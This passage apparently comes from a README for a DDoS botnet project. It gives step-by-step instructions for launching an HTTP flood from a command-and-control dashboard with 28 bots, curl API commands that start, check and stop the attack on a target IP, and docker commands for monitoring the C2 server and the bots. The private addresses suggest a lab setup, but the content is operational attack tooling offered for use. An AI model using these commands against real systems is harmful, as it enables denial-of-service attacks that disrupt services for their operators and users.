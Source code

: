 ### Starting an Attack

1. **Access C2 Dashboard**: http://192.168.1.100:8080
2. **Verify all 28 bots are connected**
3. **Configure attack parameters**:
   - Target: 192.168.1.200
   - Attack type: HTTP Flood
   - Intensity: 100 req/sec per bot
4. **Launch attack**
5. **Monitor real-time statistics**

### API Commands

```bash
# Start HTTP flood attack
curl -X POST http://192.168.1.100:8080/api/attack/start \
  -H "Content-Type: application/json" \
  -d '{
    "attack_type": "http_flood",
    "target_ip": "192.168.1.200",
    "target_port": 80,
    "intensity": 100,
    "duration": 60
  }'

# Check attack status
curl http://192.168.1.100:8080/api/status

# Emergency stop
curl -X POST http://192.168.1.100:8080/api/emergency-stop
```

---

## 📊 Monitoring

### C2 Server Monitoring
```bash
# Container status
docker stats ddos-c2-server

# Application logs
docker logs -f ddos-c2-server

# Resource usage
docker exec ddos-c2-server ps aux
```

### Bot Monitoring
```bash
# On each bot system
docker stats bot-$(hostname)
docker logs -f bot-$(hostname)

# Check bot health
docker exec bot-$(hostname) python -c "import psutil; print(f'CPU: {psutil.cpu_percent()}%, Memory: {psutil.virtual_memory().percent}%')"
```
